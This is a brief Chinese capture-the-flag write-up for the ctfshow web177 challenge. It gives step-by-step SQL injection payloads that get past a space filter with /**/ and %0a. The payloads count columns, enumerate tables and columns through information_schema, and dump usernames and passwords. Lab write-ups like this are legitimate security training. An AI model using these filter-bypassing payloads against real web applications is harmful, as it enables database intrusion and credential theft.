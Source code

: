 # web177
空格被过滤使用/**/或%0a或tab绕过
```
1'order/**/by/**/3%23
```
列数为3

判断回显位
```
1'union%0aselect%0a1,2,3%23
```
查表
```
'union%0aselect%0adatabase(),2,table_name%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='ctfshow_web'%23
```
查字段
```
'union%0aselect%0adatabase(),2,column_name%0afrom%0ainformation_schema.columns%0awhere%0atable_name='ctfshow_user'%23
```
![](vx_images/18145822849805.png)

查数据
```
'union%0aselect%0adatabase(),username,password%0afrom%0actfshow_user%23
```
![](vx_images/325194552376106.png)